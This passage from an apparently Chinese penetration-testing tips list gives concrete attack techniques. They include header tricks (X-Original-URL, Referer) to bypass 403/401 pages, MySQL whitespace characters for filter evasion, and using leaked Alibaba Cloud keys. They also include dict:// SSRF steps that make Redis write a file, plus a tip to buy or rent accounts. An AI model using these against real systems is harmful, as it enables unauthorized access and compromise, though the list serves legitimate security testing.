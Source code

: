 
20、swagger组件特征固定title：`Swagger UI`

21、403和401的绕过小技巧：

![c437ffd30e608e079623ee01cf1b4ca](https://github.com/Power7089/PenetrationTest-Tips/blob/main/img/403%E7%BB%95%E8%BF%87.jpg)

22、盲测目录是否存在，如果存在该目录可能会自动在URL末尾添加`/`补全。

23、Mysql中可以利用的空白字符有：`%09,%0a,%0b,%0c,%0d,%20,%a0`

24、获取账号：文库，QQ群，github泄露，借/租/买账号。

25、如果泄露阿里云的 AKSK，可以使用AKSKtools工具进一步利用。`https://xz.aliyun.com/t/8429  `    

26、如果遇见后台页面一闪而过，接着让你登录，一般使用了权限认证方式，可以用一下方式进行绕过，或者遇见401,403,302，都可以尝试使用以下方法：

```
一、GET /xxx HTTP/1.1 à403
Host: test.com
绕过：
GET /xxx HTTP/1.1 à200
Host: test.com
X-Original-URL: /xxx

二、GET /xxx HTTP/1.1 à403
Host: test.com
绕过：
GET /xxx HTTP/1.1 à200
Host: test.com
Referer: http://test.com/xxx

三、302跳转：拦截并drop跳转的数据包，使其停留在当前页面。
四、前端验证：只需要删掉对应的遮挡模块，或者是验证模块的前端代码。
```

27、gopher协议使用限制：

![640.png](https://github.com/Power7089/PenetrationTest-Tips/blob/main/img/GOpher%E5%8D%8F%E8%AE%AE.png)

28、一款生成gopher协议payload的工具：

```
https://github.com/firebroo/sec_tools
```

29、Dict协议写入流程：

```
1.写入内容；
 dict://127.0.0.1:6379/set❌test

2.设置保存路径；
dict://127.0.0.1:6379/config:set:dir:/tmp/

3.设置保存文件名；
dict://127.0.0.1:6379/config:set:dbfilename:1.png

4.保存。
dict://127.0.0.1:6379/save
```
